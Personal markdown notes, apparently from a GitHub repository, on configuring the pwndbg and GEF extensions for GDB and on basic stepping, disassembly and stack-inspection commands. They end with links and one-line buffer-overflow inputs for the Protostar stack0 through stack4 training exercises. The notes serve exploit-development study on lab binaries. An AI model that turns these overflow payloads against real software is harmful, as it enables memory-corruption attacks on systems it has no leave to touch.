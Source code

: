 # GDB Enhancement Setup
[Pwndgb]: https://github.com/pwndbg/pwndbg
[GEF]: https://github.com/hugsy/gef

## Follow directions from links above to setup either pwndbg/gef

## You should now have a ~/.gdbinit
[My gdbinit]: $ cat ~/.gdbinit
	#source /home/user/.gdbinit-gef.py
	source /home/user/Documents/pwndbg/gdbinit.py
+ I commented out gef and have it point to pwndbg
________________________________________________________________________
________________________________________________________________________



## Step vs Next
gdb> s
gdb> s [#]
        ^optional: number of time to times to step
     this will go to the next assembly instruction
     AND will enter into a function


gdb> n
gdb> n [#]
        ^optional: number of time to times to step
	 this will go to the next assembly instruction
	 BUT will NOT enter a function and let that function finish


________________________________________________________________________
________________________________________________________________________



## See Assembly Chunk
pwndbg> u <function>
pwndbg> u main
pwndbg> u <function> [#]
	                  ^optional: number lines of assembly

gef> cs <function>
gef> cs main
gef> cs <function> [#]
   			        ^optional: number lines of assembly


________________________________________________________________________
________________________________________________________________________



## See Stack Frame
pwndbg> telescope <register/address>
pwndbg> telescope <register/address> [#]
								         ^optional: number lines of memory


[Reference Stack 0-5]: https://kevinalmansa.github.io/write-ups/Protostar-Stack-Write-up/
[Reference Stack6]: https://medium.com/bugbountywriteup/expdev-exploit-exercise-protostar-stack-6-ef75472ec7c6
[Simple]: python -c "print 'A' * 77" | ./stack0
[Detailed]: Step-by-Step
[Simple]:  ./stack1 $(python -c "print 'A' * 76 + '\x64\x63\x62\x61'")
[Simple]: GREENIE=$(python -c "print 'A' * 68 + '\x0a\x0d\x0a\x0d'") ./stack2
[Simple]: Step-by-Step
[Detailed]: Step-by-Step
[Simple]: python -c "print 'A' * 72 + '\x37\x05\x40\x00\x00\x00'" | ./stack4
[Detailed]: Step-by-Step
[Shellcode]: http://shell-storm.org/shellcode/
[Detailed]: Step-by-Step